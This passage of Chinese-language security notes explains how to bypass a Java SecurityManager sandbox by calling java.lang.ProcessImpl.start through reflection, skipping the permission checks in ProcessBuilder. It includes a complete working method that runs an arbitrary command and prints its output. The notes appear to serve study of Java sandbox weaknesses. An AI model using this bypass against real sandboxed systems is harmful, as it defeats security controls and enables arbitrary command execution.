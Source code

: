 ### ProcessImpl

- 在有些方法中，他会先去进行权限检测，然后调用一个protect或者private方法实现功能，这样我们就可以通过反射去进行绕过

- 例如命令执行，来观察一下`Runtime.getRuntime().exec()`执行过程中是在哪儿进行的权限检测

  ![image-20231108200629072](images/21.png)

- 可以看到是在ProcessBuilder中进行的权限检测，而我们知道，执行命令的时候甚至可以直接调用更深层次的ProcessImpl来执行命令，所以可以直接调用ProcessImpl来绕过沙箱检测

  ```
  public static void reflectProcessImpl(String command) throws Exception{
      Class Pro = Class.forName("java.lang.ProcessImpl");
      Method method = Pro.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
      method.setAccessible(true);
      Process p = (Process) method.invoke(null, new String[]{command}, null, ".", null, true);//静态方法,invoke不需要传入对象
      //获取p的输入流
      InputStream is = p.getInputStream();
      //将缓冲区的数据，转换成字节数组
      ByteArrayOutputStream out = new ByteArrayOutputStream();
      byte[] bytes = new byte[1024];
      int size = 0;
      while ((size = is.read(bytes)) != -1){
          out.write(bytes,0,size);
      }
      System.out.println(out.toString());
  }
  ```
